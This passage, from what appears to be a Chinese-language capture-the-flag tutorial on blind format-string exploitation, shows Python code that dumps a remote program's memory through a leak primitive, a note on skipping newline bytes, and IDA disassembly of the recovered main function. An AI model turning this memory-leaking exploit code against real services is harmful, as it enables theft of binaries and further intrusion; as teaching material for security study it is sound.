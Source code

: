 ```python
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None

def getbinary():
	addr = 0x400000
	f = open('binary', 'w')
	while addr < 0x401000:
		data = leak(addr)
		if data is None:
			f.write('\xff')
			addr += 1
		elif len(data) == 0:
			f.write('\x00')
			addr += 1
		else:
			f.write(data)
			addr += len(data)
	f.close()
getbinary()
```

需要注意的是，在 payload 中需要判斷是否有 '\n' 出現，因爲這樣會導致源程序只讀取前面的內容，而沒有辦法泄露內存，所以需要跳過這樣的地址。

#### 分析binary

利用 IDA 打開泄露的 binary ，改變程序基地址，然後簡單看看，可以基本確定源程序 main 函數的地址

```asm
seg000:00000000004005F6                 push    rbp
seg000:00000000004005F7                 mov     rbp, rsp
seg000:00000000004005FA                 add     rsp, 0FFFFFFFFFFFFFF80h
seg000:00000000004005FE
seg000:00000000004005FE loc_4005FE:                             ; CODE XREF: seg000:0000000000400639j
seg000:00000000004005FE                 lea     rax, [rbp-80h]
seg000:0000000000400602                 mov     edx, 80h ; '€'
seg000:0000000000400607                 mov     rsi, rax
seg000:000000000040060A                 mov     edi, 0
seg000:000000000040060F                 mov     eax, 0
seg000:0000000000400614                 call    sub_4004C0
seg000:0000000000400619                 lea     rax, [rbp-80h]
seg000:000000000040061D                 mov     rdi, rax
seg000:0000000000400620                 mov     eax, 0
seg000:0000000000400625                 call    sub_4004B0
seg000:000000000040062A                 mov     rax, cs:601048h
seg000:0000000000400631                 mov     rdi, rax
seg000:0000000000400634                 call    near ptr unk_4004E0
seg000:0000000000400639                 jmp     short loc_4005FE
```

